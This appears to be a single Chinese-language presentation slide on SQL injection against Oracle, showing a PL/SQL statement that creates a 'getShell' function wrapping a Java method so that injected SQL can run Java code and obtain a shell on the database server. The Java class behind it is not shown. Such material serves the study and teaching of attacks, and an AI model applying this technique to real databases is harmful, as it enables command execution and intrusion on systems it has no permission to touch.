

# SQL注入
Oracle SQLJ编译执行Java代码：
创建函数：
create or replace
function getShell(p in varchar2, c in varchar2) return number
as
language java
name 'util.getShell(java.lang.String, java.lang.String) return Integer';